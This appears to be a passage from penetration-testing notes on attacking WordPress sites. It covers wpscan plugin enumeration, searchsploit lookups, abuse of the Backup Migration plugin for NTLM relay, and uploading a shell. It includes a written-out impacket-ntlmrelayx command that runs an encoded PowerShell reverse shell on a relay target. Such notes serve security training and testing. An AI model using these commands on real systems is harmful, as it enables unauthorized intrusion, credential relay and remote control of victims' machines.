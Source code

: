 ### Wordpress
- Use `wpscan` and investigate the plugins
	- `wpscan --url http://{IP} --enumerate p --plugins-detection aggressive`
	- Look for `[!] This version is out of date`
	- Can use searchsploit for these plugins or the wpscan vuln database
- If signed into the wordpress page
	- Check out plugins from the inside
	- Check out the Backup Migration
		- Changing this to our IP can allow us to relay authentication (if signing is disabled)
		- `//{kali_ip}/test` with `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c "powershell -enc {reverse_shell}"`
	- Try to upload a shell